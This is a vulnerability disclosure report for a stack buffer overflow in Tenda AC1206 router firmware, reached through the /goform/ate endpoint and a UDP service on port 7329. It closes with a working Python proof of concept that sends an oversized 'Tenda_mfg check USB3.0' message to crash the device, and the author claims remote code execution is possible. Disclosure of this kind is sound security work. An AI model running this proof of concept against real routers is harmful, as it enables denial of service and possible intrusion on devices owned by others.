 # Description



Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability. This vulnerability refers the CVE-2024-9793 (https://github.com/ixout/iotVuls/blob/main/Tenda/ate_command_injection/report.md) and I find another one

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

AC series (AC1206, AC7, AC23 have been submitted separately)

11AC Routers-Tenda US (tendacn.com)

G series

Wired Enterprise Router-Tenda US (tendacn.com)

W series

In-wall AP-Tenda US (tendacn.com)

I series

Ceiling AP-Tenda US (tendacn.com)

O series

Outdoor CPE-Tenda US (tendacn.com)

A series

Range Extenders-Tenda US (tendacn.com)

VD series

xDSL Modem Routers-Tenda US (tendacn.com)


# details



When accessing `url:/goform/ate`, `TendaAte` will be called

![](w01.png)



The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket at most ***0x1000***

![](000.png)

![](001.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

![](01.png)

When `command` is `Tenda_mfg`and `arg` is `"check"` or `"check USB3.0"`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:

![](02.png)

![](03.png)

![](04.png)



In `readUsb` function,  the variale `mntFileName` size is ***512*** char, but the variale `fileName`'s size is ***0x1000*** at most (`fileName` come from `arg` mentioned above) , there use `sprintf` function to format the two variables (`mountpoint` and `fileName`) into `mntFileName`, there is no check , And will cause stack overflow. 

![](05.png)



![](06.png)

There is no protection mechanism, causing ***RCE*** is OK, furtherly

![](08.png)


Find that, the child thread `300` crash
![](07.png)


We can find that the argment `arg`'s value, whose length is out of 512 Byte
![](10.png)


poc:

```python
import socket
import time
import os

os.system('curl http://172.30.208.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.208.100', 7329)
command = b'ss'*999
message = b'Tenda_mfg check USB3.0 ;' + command
try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```



